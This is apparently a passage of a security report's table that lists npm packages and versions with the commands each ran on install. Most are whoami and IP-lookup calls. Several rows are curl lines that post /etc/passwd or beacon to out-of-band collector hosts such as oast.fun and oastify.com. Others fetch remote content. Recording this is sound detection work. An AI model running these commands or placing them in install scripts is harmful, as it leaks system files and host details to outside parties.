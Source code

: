 <tr><td>puppeteer-example</td><td>0.1.15</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>puppeteer-example</td><td>0.1.16</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>puppeteer-example</td><td>0.1.2</td><td><code>/usr/bin/curl</code></td><td><code>/usr/bin/curl --data @/etc/passwd 4826533f4ab3cm31san2vtc000046akggkbohioyyyyyb.oast.fun</code></td></tr>
<tr><td>puppeteer-example</td><td>0.1.3</td><td><code>/usr/bin/curl</code></td><td><code>/usr/bin/curl --data @/etc/passwd 3bfb39b5a69dcm31san2vtc000046akggkbohioyyyyyb.oast.fun</code></td></tr>
<tr><td>puppeteer-example</td><td>0.1.5</td><td><code>/usr/bin/curl</code></td><td><code>/usr/bin/curl --data @/etc/passwd af54b23955a1cm31san2vtc000046akggkbohioyyyyyb.oast.fun</code></td></tr>
<tr><td>puppeteer-example</td><td>0.1.6</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>puppeteer-example</td><td>0.1.8</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>puppeteer-example</td><td>0.1.9</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>quiz-presets</td><td>18.0.1-rc.2</td><td><code>python</code></td><td><code>python -c import sys; print(sys.executable);</code></td></tr>
<tr><td>rambox</td><td>1.0.0</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>scroller_super_top</td><td>1.0.2</td><td><code>wget</code></td><td><code>wget https://ipinfo.io/</code></td></tr>
<tr><td>simple-dvt-v1</td><td>0.0.3</td><td><code>python</code></td><td><code>python -c import sys; print(sys.executable);</code></td></tr>
<tr><td>simple-dvt-v1</td><td>0.0.3</td><td><code>python</code></td><td><code>python -c import sys; print(sys.executable);</code></td></tr>
<tr><td>simple-dvt-v1</td><td>0.0.4</td><td><code>python</code></td><td><code>python -c import sys; print(sys.executable);</code></td></tr>
<tr><td>simple-dvt-v1</td><td>0.0.4</td><td><code>python</code></td><td><code>python -c import sys; print(sys.executable);</code></td></tr>
<tr><td>sqlx-ts</td><td>0.5.0</td><td><code>curl</code></td><td><code>curl -LSfs https://jasonshin.github.io/sqlx-ts/install.sh</code></td></tr>
<tr><td>sw-kendo-atomic-theme</td><td>1.999.0</td><td><code>curl</code></td><td><code>curl https://js.rip/nvjy3ak1e8</code></td></tr>
<tr><td>sw-kendo-atomic-theme</td><td>1.999.0</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>symphony-monorepo</td><td>1.0.1</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>tourist-catapult</td><td>9.7.2</td><td><code>curl</code></td><td><code>curl https://d7mr6puf9ww39.cloudfront.net/meta.xml</code></td></tr>
<tr><td>tv-front</td><td>1.1.0</td><td><code>/usr/bin/curl</code></td><td><code>/usr/bin/curl d1d1d5022c4b.rhck43o9lrknmap6jncly360zr5itahz.oastify.com</code></td></tr>
<tr><td>ui-elements-icons</td><td>4.999.0</td><td><code>curl</code></td><td><code>curl https://ifconfig.me</code></td></tr>
<tr><td>ui-elements-icons</td><td>4.999.0</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>ui-elements-icons</td><td>6.0.0</td><td><code>curl</code></td><td><code>curl https://ifconfig.me</code></td></tr>
<tr><td>ui-elements-icons</td><td>6.0.0</td><td><code>curl</code></td><td><code>curl https://ifconfig.me</code></td></tr>
<tr><td>ui-elements-icons</td><td>6.0.0</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>ui-elements-icons</td><td>6.0.0</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>ui-elements-icons</td><td>8.999.0</td><td><code>curl</code></td><td><code>curl https://ifconfig.me</code></td></tr>
<tr><td>ui-elements-icons</td><td>8.999.0</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>ui-elements-icons</td><td>9.999.9</td><td><code>curl</code></td><td><code>curl https://ifconfig.me</code></td></tr>
<tr><td>ui-elements-icons</td><td>9.999.9</td><td><code>whoami</code></td><td><code>whoami</code></td></tr>
<tr><td>vesper-synth-user-lib</td><td>20.0.0</td><td><code>curl</code></td><td><code>curl ifconfig.me</code></td></tr>